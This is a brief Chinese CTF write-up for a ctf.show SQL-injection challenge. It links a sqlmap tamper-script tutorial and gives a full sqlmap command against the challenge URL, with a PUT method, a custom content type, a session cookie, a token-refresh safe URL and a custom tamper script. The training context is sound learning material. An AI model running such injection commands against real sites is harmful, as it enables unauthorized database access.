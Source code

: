 # 知识点
自带的tamper似乎都不好用，开始自己写tamper脚本<br />tamper脚本教程<br />[https://y4er.com/post/sqlmap-tamper/](https://y4er.com/post/sqlmap-tamper/)
# 思路
```bash
python sqlmap.py -u "http://4932367a-1bc8-4644-96d4-d0f9ff65a313.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=1vrv4fg7q4uid8i1lhma043h20" --safe-url="http://4932367a-1bc8-4644-96d4-d0f9ff65a313.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web209.py

```
![image.png](./images/20231017_2351562419.png)
